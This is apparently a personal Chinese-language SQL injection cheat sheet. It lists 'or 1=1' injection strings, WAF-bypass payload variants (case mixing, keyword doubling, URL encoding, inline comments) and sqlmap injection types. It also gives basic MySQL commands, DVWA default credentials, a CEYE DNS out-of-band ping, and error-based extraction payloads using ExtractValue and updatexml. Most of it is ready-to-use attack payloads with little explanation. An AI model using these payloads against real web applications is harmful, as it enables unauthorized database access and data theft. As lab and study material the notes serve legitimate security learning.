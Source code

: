 ## CEYE DNS
   ping n.6vlqdr.ceye.io

## 注入万能尝试语法
    ' or 1=1 --+
    " or 1=1 --+
    )' or 1=1 --+
    )" or 1=1 --+
## 绕过waf
    大小写混合 uNIoN sELecT 1,2,3,4
    2.替换关键字 selselectect 1,2,3,4
    使用编码 %55nion %53elect 1,2,3,4
    使用注释 union/**/select 1,2,3,4
    等价函数与命令 @@datadir ==> datadir()
    特殊符号 select+id+from users;
## sql 注入类型 工具 sqlmap
    boolean-based blind 基于Boolean的盲注
    time-based blind 基于时间的盲注error-based 基于报错
    UNION query-based 基于联合查询
    stacked queries 基于多条SQL语句（堆叠注入）
    out-of-band（OOB） 非应用内通信注入，比如DNSLog
    
## mysql 基本操作
    INSERT INTO test (name,phone,yx) VALUES ("z","1","x") 增加
    SELECT * FROM test WHERE name="z" 查询
    UPDATE test SET name="zz" WHERE name="z" 改
    DELETE FROM test where name="zz" 删除
    user dvwa
    password password
    SHOW DATABASES; 查看数据库
    shwo tables; 查看表
    show global variables 查看变量
    SHOW COLUMNS FROM sys_user 查询列
    SELECT DATABASE(); 查询数据库名称
    SELECT USER();
    SELECT version();
    SELECT area_id FROM t_area ORDER BY area_id ASC  排序
    UNION  SELECT * FROM sys_user WHERE user_id="1" UNION SELECT * FROM sys_user WHERE account="liugp" 两条语句用于连接
    SELECT GROUP_CONCAT(account) FROM sys_user  字符拼接成一行
    SELECT if(1=1,1,2)  三元判断
    select sleep(1) 延迟执行
    SELECT ExtractValue('<a><b>ssss</b></a>','/a/b') AS val -- ssss; 就是寻找前一段xml文档内容中的a节点下的b节点，这里如果Xpath格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。 注入 SELECT ExtractValue('<a><b>ssss</b></a>',concat(0x7e,(SELECT database()),0x7e))
    SELECT updateXML('<f>111</f>','/f','<e>fff</e>') AS val1 替换 注入sql SELECT updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
 
 